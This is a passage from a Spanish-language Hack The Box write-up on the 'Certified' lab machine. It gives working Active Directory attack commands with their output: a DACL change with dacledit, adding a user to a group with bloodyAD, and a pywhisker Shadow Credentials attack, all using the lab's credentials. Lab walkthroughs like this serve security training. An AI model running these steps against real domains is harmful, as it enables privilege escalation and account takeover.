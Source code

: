 ## Active Directory Exploitation

Modifico los permisos del grupo `Management` para otorgar el derecho `WriteMembers` a `judith.mader`.

```terminal
/home/kali/Documents/htb/machines/certified:-$ impacket-dacledit -action 'write' -rights 'WriteMembers' -target-dn "CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB" -principal "judith.mader" "certified.htb/judith.mader:judith09"
[*] DACL backed up to dacledit-20250211-202402.bak
[*] DACL modified successfully!
```

Ahora agrego a `judith.mader` al grupo `Management`. 

```terminal
/home/kali/Documents/htb/machines/certified:-$ bloodyAD --host 10.10.11.41 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
[+] judith.mader added to Management
```

Clono las herramientas necesarias para continuar.

```terminal
/home/kali//Documents/github/:-$ git clone https://github.com/ShutdownRepo/pywhisker.git
/home/kali//Documents/github/:-$ git clone https://github.com/dirkjanm/PKINITtools.git
```

Dado que `judith.mader` ahora forma parte del grupo `management`, y este grupo tiene el privilegio `GenericWrite`, ejecuto un [Shadow Credentials Attack](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/shadow-credentials.html) sobre `management_svc` agregando credenciales de autenticación para PKINIT en su atributo msDS-KeyCredentialLink. Esto permite obtener un TGT sin conocer la contraseña del usuario.

```terminal
(Entorno_Python)-/home/kali/Documents/htb/machines/certified:-$ python ~/Documents/github/pywhisker/pywhisker/pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target management_svc --action add
```

![](assets/img/htb-writeup-certified/certified2_1.png)

Sincronizo la hora del sistema con el controlador de dominio para evitar errores de autenticación en Kerberos.

```terminal
/home/kali/Documents/htb/machines/certified:-$ sudo ntpdate certified.htb
```
